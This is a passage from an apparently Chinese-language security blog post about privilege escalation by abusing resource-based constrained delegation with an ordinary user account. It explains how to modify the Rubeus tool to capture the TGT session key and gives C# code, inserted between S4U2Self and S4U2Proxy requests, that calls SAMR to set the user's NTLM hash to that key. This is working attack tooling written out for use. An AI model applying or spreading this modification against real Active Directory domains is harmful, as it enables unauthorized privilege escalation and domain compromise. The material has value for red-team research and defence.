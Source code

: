 然后要做的就是在 Rubeus 的 S4U2Self 和 S4U2Proxy 请求之间插入额外的代码，将当前 TGT 中的会话密钥取出，将其作为 `SetNTLMHash()` 方法的参数，从而调用 MS-SAMR API 将会话密钥设为用户的 “新哈希”。

Ask.cs 类中使用 `HandleASREP()` 方法处理 KERB_AS_REP 相应，里面的 `encRepPart.key.keyvalue` 就是需要的会话密钥。我们获取该密钥的值，并将它存到事先声明的变量，如下图所示。

- Rubeus\Rubeus\lib\Ask.cs::HandleASREP

![](/assets/posts/2022-05-27-privilege-escalation-exploiting-rbcd-using-a-user-account/image-20220527101200911.png)

然后，在 U4U.cs 的 S4U2Self 和 S4U2Proxy 请求之间插入以下代码，调用 SAMR 协议修改用户哈希，如下图所示。

```c#
// Action: SamrChangePasswordUser
Console.WriteLine("[*] Action: SamrChangePasswordUser\n");

// Receive new user hash
byte[] NewNTLM = Samr.NewNTLM;
// Get the user's sid
string delegationUserName = kirbi.enc_part.ticket_info[0].pname.name_string[0];
NTAccount f = new NTAccount(delegationUserName);
SecurityIdentifier sid = (SecurityIdentifier)f.Translate(typeof(SecurityIdentifier));
// Get the user's current hash
byte[] PreviousNTLM = Helpers.StringToByteArray(keyString);
// Invoke the SAMR protocol to modify the user hash to the session key
Samr.SetNTLMHash(domainController, delegationUserName, sid, PreviousNTLM, NewNTLM);
```
